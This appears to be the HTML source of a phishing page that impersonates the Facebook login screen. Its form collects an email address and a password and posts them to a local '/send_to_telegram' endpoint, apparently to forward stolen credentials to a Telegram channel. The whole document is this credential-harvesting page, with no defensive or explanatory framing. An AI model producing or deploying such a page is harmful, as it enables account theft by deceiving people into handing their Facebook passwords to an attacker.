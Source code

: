<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Facebook - Log In or Sign Up</title>
    <link rel="stylesheet" href="https://maxcdn.bootstrapcdn.com/bootstrap/4.0.0/css/bootstrap.min.css">
    <style>
        body {
            font-family: Arial, sans-serif;
        }
        .login-container {
            max-width: 400px;
            margin: 0 auto;
            padding: 20px;
            border: 1px solid #ccc;
            border-radius: 5px;
        }
        .login-container h2 {
            text-align: center;
        }
        .login-container form {
            display: flex;
            flex-direction: column;
        }
        .login-container label, .login-container input {
            margin-bottom: 10px;
        }
    </style>
</head>
<body>

<div class="login-container">
    <h2>Facebook Login</h2>
    <form action="http://localhost:5000/send_to_telegram" method="POST">
        <label for="email">Email:</label>
        <input type="email" id="email" name="email" required>
        
        <label for="password">Password:</label>
        <input type="password" id="password" name="password" required>

        <input type="submit" value="Log In" class="btn btn-primary">
    </form>
</div>

</body>
</html>
